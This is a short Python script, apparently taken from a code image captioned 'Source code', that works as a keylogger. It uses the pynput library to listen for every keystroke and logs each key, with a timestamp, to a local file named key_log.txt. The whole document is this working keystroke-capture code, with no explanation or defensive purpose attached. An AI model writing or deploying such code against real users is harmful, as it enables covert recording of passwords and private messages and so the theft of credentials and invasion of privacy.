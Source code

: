 from pynput.keyboard import Listener
import logging

# Set up logging
log_dir = ""
logging.basicConfig(filename=(log_dir + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    try:
        logging.info(str(key))
    except AttributeError:
        logging.info(f"Special key {key} pressed")

# Set up the listener
with Listener(on_press=on_press) as listener:
    listener.join()